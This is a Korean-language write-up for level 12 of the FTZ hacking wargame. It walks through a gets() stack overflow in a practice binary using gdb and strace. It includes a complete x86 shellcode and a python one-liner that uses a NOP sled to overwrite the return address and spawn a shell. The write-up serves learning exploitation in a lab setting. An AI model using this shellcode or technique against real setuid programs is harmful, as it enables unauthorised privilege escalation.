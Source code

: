 F.T.Z level12 
=============
![Alt text](https://user-images.githubusercontent.com/37978105/42721010-6a2e7c3e-876d-11e8-8bc1-f216043f727e.png)[그림 1]

[그림 1] 은 level12 디렉터리 상황이다.
우선 hint 파일을 보면
![Alt text](https://user-images.githubusercontent.com/37978105/42721053-123c746c-876e-11e8-9fc0-14eb33c900e4.png)[그림 2]

[그림 2]는  attacckme의 소스코드이다.

 하나하나 살펴보면 우선 str이 256크기를 선언하였고
gets 함수를 사용하여 입력을 받고있다
여기서 gets함수같은경우는 개행문자(\n) 나 EOF을 만나기 전까지 저장을하니 오버플로우에 취약한 함수이다.

attackme 를 제한없이 gdb로 열기위해 tmp디렉터리로 복사를한다
```
cp attackme /home/level12/tmp
```
attackme를 gdb로 열고 main의 어셈블리어를본다
(만약 intel 문법으로 보고싶으면 gdb로 열은후 set disassembly-flavor intel 을 입력한다.)

![Alt text](https://user-images.githubusercontent.com/37978105/42721793-ebd38028-877b-11e8-81f6-3823d4f06b1e.png)[그림 3]

[그림 3]이 intel 문법인 main의 어셈블리어이다.

<main+3>을 보면 0x108을 공간을 할당하는것을 볼수있는대
0x108을 10진수면 264가되고 <main+49>~<main+56>을 보면
264의 크기를 gets함수에 보내는것으로보아 str함수에 8byte만큼의 더미가 생긴것을 알수있다.

gets함수진행후에 상황을보고싶기떄문에 <main+61>브레이크 포인트를잡는다
`
b*0x080484ad
`
그리고 A를 몇개넣어서 실행을시킨다.

![Alt text](https://user-images.githubusercontent.com/37978105/42721907-68186d14-877d-11e8-807a-177aa1951146.png)[그림 4]

![Alt text](https://user-images.githubusercontent.com/37978105/42721918-a408c792-877d-11e8-855f-ff8e512b57d8.png)[그림 5]
esp의 메모리를 보면 방금 입력한 A(A의 16진수 0x41)
을 볼수있다 이것으로 버퍼의 주소를 알수있다.

그럼 공격할 코드를 짜보자


![Alt text](https://user-images.githubusercontent.com/37978105/42722447-17260bb4-8787-11e8-9d37-a70c103da0e2.png)[그림 6]

[그림 6]은 간단하게 버퍼상황을 표현한것이다.

그러면 이제  NOP sled기법을 사용해서 str부터 SFP총 268byte에 쉘코드61byte와 NOP 207 byte 을 저장하고 RET에 버퍼주소를 넣는 코드를 작성하면된다.

SHELLCODE=\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80
\xeb\x1\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08
\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff
\x2f\x62\x69\x6e\x2f\x73\x68
 


(python -c'print"\x90"*207+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0
\x46\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89
\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff
\xff\x2f\x62\x69\x6e\x2f\x73\x68"+"\x60\xe5\xff\xbf"';cat) | /home/level12/attackme

코드를보면 

- RET에주소는 아까 찾은 버퍼주소중 하나를 사용하였다.

- cat을 쓴이유는 cat이없으면 EOF로 처리가되버려 종료가되기때문에 사용했다 
-  리눅스 파이프를 이용해서 공격한것은
level12의 attackme 는 실행한뒤 입력을받기때문에 그런것이다

이 공격의경우 attackme에는 ASLR이 걸려있어 주소가 바뀌기 떄문에 여러번 시도를해야 성공을한다
![Alt text](https://user-images.githubusercontent.com/37978105/42722667-16360e08-878b-11e8-8d38-4f4d5e2c8e78.png)[그림 7]

[그림 7]과 같이 쉘을 따낼수있지만 여러번 시도를 해야한다

그러던중 흥미로운것을 알게됬다

![Alt text](https://user-images.githubusercontent.com/37978105/42722688-6a88872e-878b-11e8-96be-049898c6e90f.png)[그림 8]

[그림 8]은 strace로 attacke 를 열어본것이다.

[그림 8]의 밑에부분을 보면 처음 mmap2랑 마지막에 0x40017000이나0x40018000을 써있는부분이있을것이다 두주소에는 입력한내용이 저장되는 주소라는것을 알게되었다.
우선 이 주소에 저장되는지 확인하기 위해 버퍼의 주소를 찾던것과같이 gdb로 찾아보았다

![Alt text](https://user-images.githubusercontent.com/37978105/42722724-25f7c81c-878c-11e8-8813-c3bd42bc6326.png)[그림 9]

[그림 9]를 보았을때 [그림 8]에서 찾은 주소에 내가 입력한 값이 저장된다는것을 알았다.
그래서 이 주소를 가지고 공격을 시도해보았다

![Alt text](https://user-images.githubusercontent.com/37978105/42722740-7fbaf32e-878c-11e8-9ffa-ea6450387dfb.png)[그림 10]

[그림 10]을 보면 알수있듯이 쉘을 따내는것에 성공을하였다 이전 시도한 방법과달리 여러번 시도하지않고 한번에 성공을하였다.


